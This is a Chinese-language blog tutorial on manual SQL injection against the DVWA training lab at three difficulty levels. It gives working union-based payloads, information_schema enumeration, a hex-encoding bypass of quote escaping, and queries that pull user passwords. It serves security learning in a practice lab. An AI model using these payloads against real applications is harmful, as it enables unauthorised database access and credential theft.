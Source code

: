 ```yaml
---
title:      "SQL Injection ---dvwa"
description: "主要用来记录dvwa靶场 中SQL Injection 的破解方式"
author:     "伍帆"
image: "/img/home-bg.jpg"
date: 2022-06-28
published: true
tags:
    - 靶场
    - dvwa
URL: "/2022/6/sql injection/"
categories: [ "网安" ]
---
```



## SQL Injection 简介

SQL Injection，即SQL注入，是指攻击者通过注入恶意的SQL命令，破坏SQL查询语句的结构，从而达到执行恶意SQL语句的目的。SQL注入漏洞的危害是巨大的，常常会导致整个数据库被“脱裤”，尽管如此，SQL注入仍是现在最常见的Web漏洞之一。

## 手工注入思路
自动化的注入神器sqlmap固然好用，但还是要掌握一些手工注入的思路，下面简要介绍手工注入（非盲注）的步骤。
> 1.判断是否存在注入，注入是字符型还是数字型
> 
> 2.猜解SQL查询语句中的字段数
> 
> 3.确定显示的字段顺序
> 
> 4.获取当前数据库
> 
> 5.获取数据库中的表
> 
> 6.获取表中的字段名
> 
> 7.下载数据

## LOW 级别破解
>查看源代码
![low级别代码](/img/SqlInjection/low_code.png)
可以看到，Low级别的代码对来自客户端的参数id没有进行任何的检查与过滤，存在明显的SQL注入。

    现实攻击场景下，攻击者是无法看到后端代码的，所以下面的手工注入步骤是建立在无法看到源码的基础上。
#### 1.判断是否存在注入，注入是字符型还是数字型
输入1，查询成功：
![low级别代码](/img/SqlInjection/low1.png)
输入1’or ‘1’=’1，查询成功：
![low级别代码](/img/SqlInjection/3.png)
返回了多个结果，说明存在字符型注入。

#### 2.猜解SQL查询语句中的字段数
通过输入 `1' union select 1,2 ...#` 判断字段数

输入 `1' union select 1,2#` 显示如下
![low级别代码](/img/SqlInjection/2-1.png)
输入 `1' union select 1,2,3#` 显示如下
![low级别代码](/img/SqlInjection/2-2.png)
说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。

#### 3.确定显示的字段顺序
输入`1′ union select 1,2 #`，查询成功：
![low级别代码](/img/SqlInjection/2-1.png)
说明执行的SQL语句为`select First name,Surname from 表 where ID=’id’…`

#### 4.获得当前数据库
输入`1' and 1=2 union select database(),user()#`，查询成功：
![low级别代码](/img/SqlInjection/2-3.png)
说明当前的数据库为root 用户为root用户

#### 5.获取数据库中的表
输入`1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #` 判断表

#### 6.获取表中的字段名
输入 `1′ union select 1,group_concat(column_name) from information_schema.columns where table_name=’users’ #` 查询表中字段

#### 7.下载数据
输入 `1' and 1=2 union select first_name,password from users --` 获得users 数据库中的用户名和密码
![low级别代码](/img/SqlInjection/2-4.png)


## medium 级别破解
>查看源代码
![low级别代码](/img/SqlInjection/medium.png)
可以看到，Medium级别的代码利用mysql_real_escape_string函数对特殊符号
\x00,\n,\r,\,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。   
![low级别代码](/img/SqlInjection/medium1.png)
    
    虽然前端使用了下拉选择菜单，但我们依然可以通过抓包改参数，提交恶意构造的查询参数

#### 1.判断是否存在注入，注入是字符型还是数字型
打开 burpSuite 对数据进行抓包
![low级别代码](/img/SqlInjection/3-1.png)
抓包更改参数id为`1′ or 1=1 #` 发现报错
![low级别代码](/img/SqlInjection/3-2.png)   
抓包更改参数id为`1 or 1=1 #`，查询成功：
![low级别代码](/img/SqlInjection/3-3.png)
说明存在数字型注入。 
   
     由于是数字型注入，服务器端的mysql_real_escape_string函数就形同虚设了，因为数字型注入并不需要借助引号。）

#### 2.猜解SQL查询语句中的字段数
抓包更改参数id为`1 order by 2 #`，查询成功：
![low级别代码](/img/SqlInjection/3-4.png)
抓包更改参数id为`1 order by 3 #`，报错：
![low级别代码](/img/SqlInjection/3-5.png)
说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。
#### 3.确定显示的字段顺序
抓包更改参数id为`1 union select 1,2 #`，查询成功：
![low级别代码](/img/SqlInjection/3-6.png)
说明执行的SQL语句为select First name,Surname from 表 where ID=id…

#### 4.获取当前数据库
抓包更改参数id为` and 1=2 union select database(),user()# `，查询成功：
![low级别代码](/img/SqlInjection/3-7.png)

#### 5.获取数据库中的表
抓包更改参数id为` union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`

#### 6.获取表中的字段名

抓包更改参数id为`1 union select 1,group_concat(column_name) from information_schema.columns where table_name=’users ’#`，查询失败：
![low级别代码](/img/SqlInjection/3-8.png)
这是因为单引号被转义了，变成了\’。

可以利用16进制进行绕过，抓包更改参数id为`1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0×7573657273 #`，查询成功

#### 7.下载数据

抓包修改参数id为`1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`，查询成功：

![low级别代码](/img/SqlInjection/3-9.png)


## High级别
>查看源代码
> ![low级别代码](/img/SqlInjection/high.png)
> 可以看到，与Medium级别的代码相比，High级别的只是在SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。

虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。由于手工注入的过程与Low级别基本一样，直接最后一步演示下载数据。

输入`'1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #`，查询成功
![low级别代码](/img/SqlInjection/4-1.png)

    需要特别提到的是，High级别的查询提交页面与查询结果显示页面不是同一个，也没有执行302跳转，这样做的目的是为了防止一般的sqlmap注入，因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，也就没办法进一步注入。